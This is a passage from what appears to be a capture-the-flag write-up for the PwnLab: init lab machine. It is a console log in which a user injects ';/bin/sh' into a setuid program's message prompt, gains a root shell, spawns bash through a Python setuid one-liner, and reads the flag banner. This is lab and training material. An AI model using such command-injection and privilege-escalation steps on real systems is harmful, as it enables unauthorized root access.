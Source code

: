 ```console
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ;/bin/sh
;/bin/sh

# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@pwnlab:/home/mike# cd /root
cd /root
root@pwnlab:/root# ls
ls
flag.txt  messages.txt


root@pwnlab:/root# /bin/cat flag.txt
/bin/cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
```
